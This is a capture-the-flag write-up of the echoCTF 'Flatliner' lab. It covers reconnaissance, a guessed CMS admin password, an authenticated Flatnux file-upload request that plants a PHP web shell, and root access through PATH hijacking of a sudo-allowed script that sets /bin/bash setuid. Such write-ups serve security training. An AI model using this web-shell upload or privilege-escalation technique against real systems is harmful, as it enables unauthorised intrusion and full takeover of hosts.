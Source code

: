 ```yaml
---
description: >-
  Flatliner echoCTF Machine
title: Flatliner (Intermediate)                # Add title here
date: 2025-02-20 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Flatliner.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.224
```

### Content

- Weak Password, same as the CMS name
- Flatnux Remote Code Execution (Authenticated)
- Path Hijacking

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.224
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.224 ()   Status: Up
Host: 10.0.160.224 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.224
Nmap scan report for 10.0.160.224
Host is up, received user-set (0.19s latency).
Scanned at 2025-02-20 23:57:11 EST for 59s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   256 fb:d7:08:85:ed:62:2b:70:d9:c4:99:7d:96:9f:37:6a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEwl0Nhx2u+zSxEjLL9lAMeUZFACICmBIcXDh6f/PUosofpec+9trK0xhMfISPTrt90KvFUHRdudRKs1+A5VeS8=
|   256 39:57:e6:b2:a0:b2:a4:6b:d6:3d:b3:89:2e:29:37:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIISwV9OuOMNiLXFeYk671tCkJjiGiQqFFUNJNq14Ulr4
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61
| http-methods: 
|_  Supported Methods: GET
|_http-title: Flat time
```

### Exploitation

There is only HTTP port open which has a web page only:

![](/assets/img/Pasted-image-20250220225718.png)

Looking for exploits on this CMS, we identified the following [flatnux - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/51295)

Now, the important thing here is that the exploit requires authentication, this authentication was very tricky, the following credentials were the success ones `admin:flatnux` I've used `cewl` to create a list from the website. Then all you need to do is follow the steps on the exploit which is basically upload a file from the webpage, this is the HTTP request:
```bash
POST /filemanager.php?opmod=upload HTTP/1.1
Host: 10.0.160.224
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------93361341221244197981349489882
Content-Length: 627
Origin: http://10.0.160.224
Connection: keep-alive
Referer: http://10.0.160.224//filemanager.php
Cookie: fnuser=admin; secid=1fa1063f452e44d88c8903d01c4ebc44
Upgrade-Insecure-Requests: 1

-----------------------------93361341221244197981349489882
Content-Disposition: form-data; name="filename"; filename="exploit.php"
Content-Type: application/x-php

<?php system($_REQUEST["cmd"]); ?>

-----------------------------93361341221244197981349489882
Content-Disposition: form-data; name="MAX_FILE_SIZE"

90000000
-----------------------------93361341221244197981349489882
Content-Disposition: form-data; name="dir"

/var/www/html
-----------------------------93361341221244197981349489882
Content-Disposition: form-data; name="send"

Send
-----------------------------93361341221244197981349489882--
```

After that you'll get a webshell on this HTTP request:
```bash
http://10.0.160.224/exploit.php?cmd=whoami
```

### Privilege Escalation
The privilege escalation was very straightforward, a binary that we can execute without password:
```bash
www-data@flatliner:/var/www/html$ sudo -l
User www-data may run the following commands on flatliner:
    (ALL : ALL) NOPASSWD: /usr/local/bin/flatline
```
And the content of the flatline binary is this:
```bash
www-data@flatliner:/var/www/html$ cat /usr/local/bin/flatline
#!/bin/bash
cat flatliner
```
Basically we have a command without full path which is most likely to be vulnerable to PATH Hijacking, so we can execute anything as root if we call it `cat`:
```bash
www-data@flatliner:/tmp$ echo '#!/bin/bash' > cat
www-data@flatliner:/tmp$ echo 'chmod +s /bin/bash' >> cat
www-data@flatliner:/tmp$ cat cat
#!/bin/bash
chmod +s /bin/bash
www-data@flatliner:/tmp$ chmod +x cat 
```
Then we need to modify our `PATH` environment variable:
```bash
www-data@flatliner:/tmp$ export PATH=/tmp:$PATH
www-data@flatliner:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
And finally, we execute the exploit:
```bash
www-data@flatliner:/tmp$ sudo /usr/local/bin/flatline
www-data@flatliner:/tmp$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```
And we are INSIDE!!!


### Post Exploitation

Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

- GOD DAMN IT DATABUS this was hard to find, credentials were `admin:flatnux`

### Notes

-  Sometimes default credentials are not public, but thinking as an attacker, if we think about it, people uses very easy passwords sometimes, in this case the name of the CMS was the password for the admin account, lesson learned, well played...

### References
- [flatnux - Remote Code Execution (Authenticated)](https://www.exploit-db.com/exploits/51295)


